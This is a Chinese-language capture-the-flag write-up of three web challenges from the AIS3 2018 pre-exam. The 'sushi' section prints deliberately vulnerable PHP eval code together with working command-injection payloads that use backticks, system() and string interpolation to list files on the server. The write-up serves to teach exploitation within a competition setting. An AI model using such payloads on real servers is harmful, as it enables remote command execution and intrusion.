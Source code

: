 # AIS3 2018 pre-exam

- Result: 
    - Rank 10
    - 31分 慘

## Web

### warmup

這題的話從Response Header可以看到`Partial-Flag`

並且GET參數為7，試著改動這個數字，可以發現Partial-Flag改變惹

所以暴力踹一輪，就能得到完整的flag

### hidden

這題把`c`和`s`參數塞回去，可以拿到下一輪的`c`和`s`

寫個腳本踹一輪

flag會出現在某一輪的header中，但不會停下來，所以要自己檢查

`AIS3{g00d_u_know_how_2_script_4_W3B_a64c06dd9c016cfe8825b10cffde21ad}`

### sushi

題目:

```php
<?php
// PHP is the best language for hacker
// Find the flag !!
highlight_file(__FILE__);
$_ = $_GET['🍣'];

if( strpos($_, '"') || strpos($_, "'") ) 
	die('Bad Hacker :(');

eval('die("' . substr($_, 0, 16) . '");');
```

這題解法很多：

1. strpos沒有真正擋掉`"`，只要出現參數開頭，一樣可以使用 (strpos會回傳0)

所以可以: ``` ".`ls`." ```

2. 可以利用PHP String特性

``` {${phpinfo()}} ```

``` {${system(ls)}} ```

3. 執行任意長度指令 (把`$_`塞回去)

``` ${@system($_)}%0als ```

``` ${@system($_)}|ls ```

...

這題出得很仁慈，只要你能`ls`

就能看到藏在網站根目錄下的flag檔名

就能直接用瀏覽器訪問存取flag
```